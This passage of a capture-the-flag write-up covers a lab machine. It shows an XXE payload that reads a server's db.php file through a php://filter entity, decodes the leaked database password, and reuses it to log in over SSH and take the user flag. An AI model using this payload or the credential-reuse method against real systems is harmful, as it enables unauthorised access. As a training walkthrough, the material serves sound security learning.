 ### Attempting to SSH into server
Unfortunately, we do not know the password of the ```development``` user to login to the SSH server
```code
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh development@10.10.11.100                                         3 ⚙
development@10.10.11.100's password: 
Permission denied, please try again.
development@10.10.11.100's password: 
Permission denied, please try again.
development@10.10.11.100's password: 
development@10.10.11.100: Permission denied (publickey,password).
```

### Obtaining credentials
However, we recall from ```gobuster``` that we have a ```db.php``` file, and the likely location that the file is stored in is ```var/www/html/db.php```. We can modify
the payload to read from the ```db.php``` file
```code
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php" >]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>test</reward>
		</bugreport> 
  
 ```
 The response for the payload gives us a base-64 encoded text that decodes to provide password for the database server
 ```code
 ┌──(kali㉿kali)-[~/Desktop]
└─$ echo PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo= | base64 --decode
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

### Obtaining User flag
We will now SSH into the database server, using the ```development``` username that we have found earlier, and we finally successfully logged into the server via SSH. We will then be able to obtain the user flag for this challenge
```code
sh development@10.10.11.100                                         5 ⚙
development@10.10.11.100's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 09 Aug 2021 03:15:58 AM UTC

  System load:           0.0
  Usage of /:            24.1% of 6.83GB
```